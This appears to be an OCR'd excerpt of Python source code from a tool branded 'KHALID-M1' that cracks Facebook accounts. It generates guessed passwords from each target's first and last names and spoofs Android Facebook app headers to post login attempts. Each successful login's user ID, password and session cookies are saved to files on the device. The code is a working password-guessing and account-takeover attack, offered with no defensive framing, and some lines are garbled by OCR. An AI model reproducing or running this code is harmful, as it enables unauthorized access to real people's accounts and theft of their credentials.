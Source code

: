         sys.stdout.write('\r\r\033[1;37m[\x1b[38;5;208mKHALID-M1\x1b[1;97m] \x1b[1;97m[\x1b[1;93m%s\x1b[1;97m] \033[1;37m[\x1b[1;92mOK ACCOUNTS\x1b[1;91m:\x1b[1;92m %s\x1b[1;97m] \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
        session = requests.Session()
        try:
                first = names.split(' ')[0]
                try:
                        last = names.split(' ')[1]
                except:
                        last = 'Khan'
                ps = first.lower()
                ps2 = last.lower()
                for fikr in passlist:
                        pas = fikr.replace('First',first).replace('Last',last).replace('first',ps).replace('last',ps2)
                        android_version=str(random.randrange(6,13))
                        accessToken = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                        fbav = f'{random.randint(111,999)}.0.0.{random.randint(11,99)}.{random.randint(111,999)}'
                        fbbv = str(random.randint(111111111,999999999))
                        android_version = device['android_version']
                        model = device['model']
                        build = device['build']
                        fblc = device['fblc']
                        fbcr = sim_id
                        fbmf = device['fbmf']
                        fbbd = device['fbbd']
                        fbdv = device['fbdv']
                        fbsv = device['fbsv']
                        fbca = device['fbca']
                        fbdm = device['fbdm']
                        fbfw = '1'
                        fbrv = '0'
                        fban = 'FB4A'
                        model = random.choice(['Infinix_X521','Infinix X672','Infinix X6815B','Infinix X6815B','Infinix X6515','Infinix X6516','Infinix X6825','Infinix X5516B','Infinix X669C','Infinix X669D','Infinix X6815C','Infinix X670','Infinix X5516C','Infinix X6826B','Infinix X5516C','Infinix X676C','Infinix X697','Infinix X5516B','Infinix X6515','Infinix X6811'])
                        fbap = random.choice(['414.0.0.30.113','414.0.0.30.113','354.0.0.8.108','354.0.0.8.108','405.0.0.16.112','414.0.0.30.113','414.0.0.30.113','413.0.0.30.104','414.0.0.30.113','408.1.0.16.113'])
                        ua = '[FBAN/FB4A;FBAV/292.0.0.61.123;FBBV/251145743;FBDM/{density=2.0,width=720,height=1365};FBLC/pt_BR;FBRV/252398077;FBCR/VIVO;FBMF/samsung;FBBD/samsung;FBPN/com.facebook.katana;FBDV/SM-A015M;FBSV/10;FBOP/19;FBCA/armeabi-v7a:armeabi;]'                 ua=random.choice(ugen)
                        head = {'authority': 'm.facebook.com','accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7','accept-language': 'en-LK,en;q=0.9,ur-LK;q=0.8,ur;q=0.7,en-GB;q=0.6,en-US;q=0.5','cache-control': 'max-age=0','sec-ch-prefers-color-scheme': 'light','sec-ch-ua': '"Not:A-Brand";v="99", "Chromium";v="112"','sec-ch-ua-full-version-list': '"Not:A-Brand";v="99.0.0.0", "Chromium";v="112.0.5615.137"','sec-ch-ua-mobile': '?1','sec-ch-ua-platform': '"Android"','sec-ch-ua-platform-version': '"12.0.0"','sec-fetch-dest': 'document','sec-fetch-mode': 'navigate','sec-fetch-site': 'none','sec-fetch-user': '?1','upgrade-insecure-requests': '1','user-agent': ua,}
                        getlog = session.get(f'https://m.facebook.com/login/device-based/password/?uid={ids}&flow=login_no_pin&refsrc=deprecated&_rdr')
                        idpass ={"lsd":re.search('name="lsd" value="(.*?)"', str(getlog.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(getlog.text)).group(1),"uid":ids,"next":"https://mbasic.facebook.com/login/save-device/","flow":"login_no_pin","pass":pas,}
                        complete = session.post('https://m.facebook.com/login/device-based/validate-password/?shbl=0',data=idpass,allow_redirects=False,headers=head)
                        KHALID=session.cookies.get_dict().keys()
                        if "c_user" in KHALID:
                                coki=session.cookies.get_dict()
                                kuki = (";").join([ "%s=%s" % (key, value) for key, value in session.cookies.get_dict().items() ])
                                print(f'\r\r\x1b[1;92m[\033[0;97mKHALID-OK\033[0;92m] \033[0;92m%s \033[0;97m| \033[0;92m%s'%(ids,pas))
                                open('/sdcard/KHALID-OK.txt', 'a').write(ids+'|'+pas+'\n')
                                open('/sdcard/KHALID-COOKIE.txt', 'a').write(ids+'|'+pas+'|'+kuki+'\n')